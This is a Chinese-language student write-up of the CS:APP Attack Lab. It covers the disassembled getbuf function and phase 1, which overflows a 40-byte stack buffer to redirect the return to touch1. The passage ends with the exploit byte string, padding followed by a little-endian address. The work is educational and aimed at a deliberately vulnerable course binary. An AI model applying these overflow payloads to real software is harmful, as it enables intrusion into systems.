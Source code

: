 # attacklab solution

attack lab 就没有 bomb lab 那样简单明快，不读 pdf 的话甚至都不知道应该做什么...

于是做每个 phase 前都要读下pdf，把要求翻译出来

## phase 1~3

phase1-3 都是对 `getbuf` 进行缓冲区溢出攻击。

~~~assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp # 开辟40字节栈空间
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
~~~

~~~c
int getbuf() {
  	// 这里其实也不知道具体指定的是多少，编译器会默认多分配一些栈空间
    // 但是我们知道这里超过 40 就会影响到调用者保存的恢复地址
  	char alloc[40];
    // 调用 Gets，这是溢出的元凶
  	Gets(&alloc);
  	return 1;
}
~~~

### phase1

phase1 我们不需要插入新代码，我们只需要利用字符串溢出将函数的返回地址重定向到一个已经存在的 *procedure*（lecture 里老师提到过，就是其他的函数的最后一段 含ret指令）。

![image-20230424152846785](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230424152846785.png)

`test` 中调用了  `getbuf ` 函数，`getbuf` 函数执行完毕后会恢复执行回到 `test` 函数。这里我们希望改变这个行为，让他恢复执行的时候跳转到 `touch1` 而非回到 `test` 。请注意，你的漏洞利用字符串也可能会破坏与此阶段不直接相关的堆栈部分。但得益于 `touch1` 使程序直接退出，这并不会导致一个问题。

![image-20230425081242458](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230425081242458.png)

先拿到 `touch1` 的地址。`0x4017c0`

![image-20230425090256671](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230425090256671.png)

本来需要将其转为溢出的字符，不过 lab 文件中已经提供了将 hex bytes 转为字符串的工具。

先随便写 40 个字节溢出到函数返回地址处，注意小端排列

> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> c0 17 40 00 00 00 00 00

